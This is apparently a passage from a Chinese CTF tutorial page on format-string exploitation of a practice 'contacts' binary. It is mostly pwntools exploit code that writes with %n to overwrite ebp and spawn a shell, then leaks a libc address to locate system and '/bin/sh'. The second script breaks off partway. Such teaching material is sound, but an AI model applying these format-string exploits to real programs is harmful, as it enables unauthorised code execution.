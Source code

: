 ```
sh.recvuntil('Description: ')
data = sh.recvuntil('cccc', drop=True)
data = data.split('0x')
print data
ebp_addr = int(data[1], 16)
heap_addr = int(data[2], 16)

## modify ebp
part1 = (heap_addr - 4) / 2
part2 = heap_addr - 4 - part1
payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'
##print payload
createcontact('3333', '123456789', '300', payload)
printcontact()
sh.recvuntil('Description: ')
sh.recvuntil('Description: ')
##gdb.attach(sh)
print 'get shell'
sh.recvuntil('>>> ')
##get shell
sh.sendline('5')
sh.interactive()
```

system 出现 0 截断的情况下，exp 如下:

```
from pwn import *
context.log_level="debug"
context.arch="x86"

io=process("./contacts")
binary=ELF("contacts")
libc=binary.libc

def createcontact(io, name, phone, descrip_len, description):
    sh=io
    sh.recvuntil('>>> ')
    sh.sendline('1')
    sh.recvuntil('Contact info: \n')
    sh.recvuntil('Name: ')
    sh.sendline(name)
    sh.recvuntil('You have 10 numbers\n')
    sh.sendline(phone)
    sh.recvuntil('Length of description: ')
    sh.sendline(descrip_len)
    sh.recvuntil('description:\n\t\t')
    sh.sendline(description)
def printcontact(io):
    sh=io
    sh.recvuntil('>>> ')
    sh.sendline('4')
    sh.recvuntil('Contacts:')
    sh.recvuntil('Description: ')

#gdb.attach(io)

createcontact(io,"1","1","111","%31$paaaa")
printcontact(io)
libc_start_main = int(io.recvuntil('aaaa', drop=True), 16)-241
log.success('get libc_start_main addr: ' + hex(libc_start_main))
libc_base=libc_start_main-libc.symbols["__libc_start_main"]
system=libc_base+libc.symbols["system"]
binsh=libc_base+next(libc.search("/bin/sh"))
```